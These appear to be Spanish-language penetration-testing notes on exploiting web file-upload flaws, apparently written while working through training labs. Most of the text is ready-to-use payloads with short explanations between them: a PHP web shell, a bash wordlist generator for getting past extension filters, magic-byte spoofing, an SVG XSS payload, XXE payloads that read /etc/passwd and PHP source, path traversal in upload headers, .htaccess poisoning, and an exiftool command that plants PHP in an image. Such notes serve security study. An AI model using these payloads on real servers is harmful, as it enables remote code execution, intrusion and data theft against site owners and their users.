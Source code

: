 #### Shells php útiles:

        <?php system($_GET['cmd']); ?>
        <?php echo file_get_contents('/home/carlos/secret'); ?>



#### Generar bash con wordlists para bypassear whitelists:

        for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps' '.phtml' '.phar' '.php3' '.phtm'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
        done


#### Siempre agregar, previo al código malicioso un "tipo de archivo" en base a los magicnumbers:
"
GIFF8
<?php .... ?>

#### XSS:

Añadir código malicioso en la metadata de los archivos.
sgv example:
        <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
            <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
            <script type="text/javascript">alert(window.origin);</script>
        </svg>


#### XXE:

leer un archivo en el servidor
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

#### Ver código fuente de un archivo php:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
        <svg>&xxe;</svg>


### File upload wth path transversal:
Podemos encontrarnos con que en algunos casos logramos subir un archivo malicioso, pero al momento de ejecutarlo en 
el servidor, este está impedido de ejecutarse mostrandonos el texto plano (si lo escondimos en una foto podríamos
intentar ejecutarla y que nada pase).
Esto se debe a que algunos servidores limitan la ejecución de código en directorios puntuales.
Para esto podemos combinar el path transversal agregándolo en la cabecera Content-Disposition:

###### Content-Disposition: form-data; name="avatar"; filename="../exploit.php" (debemos seguir todos los procedimientos de evación de filtros de path transversal si es que el servidor tiene alguna validación).
Luego, con el mismo path transversal podemos llamarlo. (puede que al momento de llamarlo, si debimos encodear el path}
transversal en la subida, no debamos encodearlo en la ejecución).

#### Blacklist bypass:
Fuerza bruta de extensión:
Si nos encontramos un filtro de blacklist, podemos hacer fuerza bruta sobre la extención del archivo malicioso buscando una extención permitida.

###### .htaccess poisoning/spoofing:

Podemos encontrarnos que no hay una extensión permitida dentro de las shells que necesitamos o que, aunque hubiera alguna, no hubiera permisos de ejecución. 
Podemos subir un archivo .htaccess envenenado que nos permita la ejecucion:

##### 1)repetimos la subida cabiando los siguientes parámetros:
        filename= .htaccess
        content-type = text/plain
        payload= AddType application/x-httpd-php .l33t (con esto habilitamos la ejecución de archivos con la extensión l33t)

##### 2)Subimos nuevamente la shell con la extensión ".l33t" y ejecutamos.

recursión de extensiones:
Podemos también, si hay un filtro que busque por palabras puntuales y las elimine, sumar recursión a la extensión de
los archivos: shell.p.phphp

Polyglot php en una imagen:
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php






